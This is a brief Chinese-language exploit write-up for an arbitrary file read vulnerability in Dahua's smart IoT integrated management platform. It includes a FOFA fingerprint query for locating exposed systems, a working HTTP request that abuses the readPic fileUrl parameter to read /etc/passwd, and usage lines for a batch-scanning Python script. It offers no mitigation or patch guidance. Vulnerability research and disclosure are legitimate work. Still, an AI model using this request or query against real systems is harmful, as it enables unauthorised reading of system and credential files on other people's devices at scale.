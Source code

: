 # 大华智能物联综合管理平台存在env任意文件读取漏洞

### 1.漏洞描述

大华智能物联综合管理平台存在env任意文件读取漏洞，允许攻击者远程读取系统中的任意文件。

### 2.fofa语法

```plain
body="*客户端会小于800*"
```

### 3.漏洞复现

```plain
GET /evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1720005763730-3e4c96a0-9cc2-456b-ab16-59d30ebb3d4d.png)

### 4.py脚本

```plain
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```